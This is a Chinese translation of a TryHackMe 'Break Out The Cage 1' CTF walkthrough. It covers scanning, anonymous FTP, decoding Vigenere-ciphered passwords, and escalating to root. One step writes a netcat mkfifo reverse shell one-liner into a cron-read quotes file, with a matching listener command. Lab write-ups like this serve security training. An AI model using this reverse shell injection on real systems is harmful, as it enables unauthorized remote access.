 # TryHackMe:打破牢笼 1-报道

> 原文：<https://infosecwriteups.com/tryhackme-break-out-the-cage-1-write-up-3b41acde0475?source=collection_archive---------3----------------------->

![](img/0b7ccc87784234a814a9cd3826bb467c.png)

简单级 CTF 挑战

无需等待；连接到您的 OpenVPN 网络并加入[房间](https://tryhackme.com/room/breakoutthecage1)。

## 任务 1 调查！

1.  部署机器后，您将在一分钟内获得您的机器 IP。让我们从通过 Nmap 扫描机器开始。

```
nmap -sV -sC -A <machine_ip>
```

![](img/7f46c1db71a773612156c714e169626a.png)

Nmap 扫描结果

2.让我们通过 Gobuster 工具搜索 HTTP 中隐藏的扩展。

```
gobuster dir -u http://<machine_ip> -w <wordlist>
```

![](img/a707453039b1a2c9f3d6b07db378d8ca.png)

Gobuster 扫描结果

3.因为在 HTTP 服务器中什么也找不到，所以让我们打开 FTP 服务器并以匿名身份登录。

![](img/daf742d3859c551e3066c3a8060a3703.png)

ftp 服务器

4.我们可以看到一个名为“dad_tasks”的文件，其中有一个看起来经过编码的字符串。经过多次不同的尝试，我能够使用[赛博咖啡馆](https://gchq.github.io/CyberChef/)解码字符串。首先是 base64，然后是 Vigenere 密码。最后，我们会得到韦斯顿的密码。

![](img/52c1b26053a3228c73b47c100a1cf887.png)

韦斯顿的密码

5.我们成功地以韦斯顿的名义拿到了外壳。

![](img/9b096b480e5fce4479f02b693bc86ee6.png)![](img/6d91f47f8f0b7b7c1bba33bb52cc50e5.png)

6./opt 目录中有一个可疑的点文件。让我们检查一下

![](img/c4e5d3db734827e94ef5245b5b0d6a2f.png)

7.在特定的时间间隔，我们从凯奇那里得到一些信息。这些引用存储在。报价文件。我们可以删除所有这些引号，并添加一个反向 shell 脚本。

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <system_ip> 1234 >/tmp/f' > .quotes
```

![](img/30ff97c0fd99719c204fc9f9f52e8bfc.png)

8.同时，我们必须通过 Netcat 在另一个终端上监听。

```
nc -lvp 1234
```

成功拿到了反向壳，用户是凯奇。

![](img/26399492fe62672cd3e301c6869f328a.png)

9.“Super_Duper_Checklist”包含用户标志。

![](img/e839de9f7464f3907f748188e9f5115e.png)

用户标志

10.在“电子邮件备份”文件夹中，有三封电子邮件。第三封邮件给了我们一张看起来加密了的纸条。

![](img/964fc96ff0e8c04e09d49f6980f46bc4.png)

11.加密的信息可以通过 Vignenere Decode 在 CyberChef 中进行解码。关键是“面子”,因为在那封邮件中，它被强调了。破解后，我们会得到 root 的密码。

![](img/07f2c88b5865874350fb2a03609e74e6.png)

12.将用户更改为 root。

```
su root
```

![](img/efcbb471a5150e1371d43ffe872b0a63.png)

根用户

13.根目录中包含两个电子邮件备份。第二封电子邮件包含根标志。

![](img/97cba4869d294c1161e6f86b51504f5d.png)

根标志

嘣！！！我们已经完成了房间。

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)和我联系。